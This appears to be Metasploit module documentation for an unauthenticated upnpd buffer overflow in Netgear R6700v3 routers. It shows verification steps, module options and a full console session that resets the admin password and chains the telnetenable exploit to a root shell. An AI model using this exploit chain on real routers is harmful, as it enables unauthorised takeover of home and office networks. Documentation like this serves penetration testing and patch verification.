 ## Description

This module exploits a buffer overflow vulnerability in the upnpd daemon (/usr/sbin/upnpd), running on the router Netgear R6700v3, ARM Architecture, firmware version V1.0.4.82_10.0.57 and V1.0.4.84_10.0.58.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to use a default admin password to login to web interface and use a 'telnetenable' module to gain root shell.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the team Flashback (Pedro Ribeiro + Radek Domanski).

## Vulnerable Application

* Netgear R6700v3 firmware version V1.0.4.82_10.0.57
* Netgear R6700v3 firmware version V1.0.4.84_10.0.58

[Netgear R6700v3 Firmware V1.0.4.84_10.0.5](http://www.downloads.netgear.com/files/GDC/R6700v3/R6700v3-V1.0.4.84_10.0.58.zip)



## Verification Steps
  Example steps in this format:

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/netgear_r6700_pass_reset```
  4. Set RHOST
  5. Do ```check```
  6. Do: ```run```
  7. Admin password has been reset to default `password`

## Options
```
Module options (auxiliary/admin/http/netgear_r6700_pass_reset):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    5000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
```

## Scenarios
~~~
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check 

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - The target is vulnerable.

msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > run
[*] Running module against 192.168.1.1

[*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
[+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
[*] To achieve code execution, do the following steps manually:
[*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
[*] 	1.1- go to Advanced -> Administration -> Set Password
[*] 	1.2- Change the password from 'password' to <WHATEVER>
[*] 2- Run metasploit as root, then:
[*] 	2.1- use exploit/linux/telnet/netgear_telnetenable
[*] 	2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
[*] 	2.3- set rhost 192.168.1.1
[*] 	2.3- set username admin
[*] 	2.4- set password <WHATEVER>
[*] 	2.5- run it and login with 'admin:<WHATEVER>'
[*] 3- Enjoy your root shell!
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > ifconfig | grep enx
[*] exec: ifconfig | grep enx

enxd03745775fdd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > set interface enxd03745775fdd
interface => enxd03745775fdd
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
username => admin
msf5 exploit(linux/telnet/netgear_telnetenable) > set password Flashback
password => Flashback
msf5 exploit(linux/telnet/netgear_telnetenable) > set timeout 1500
timeout => 1500
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address
[+] 192.168.1.1:23 - Using creds admin:Flashback
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-22 17:52:25 +0200

 login: admin
admin
Password: Flashback



BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id
id
uid=0(admin) gid=0(root)
# uname -a
uname -a
Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown

~~~
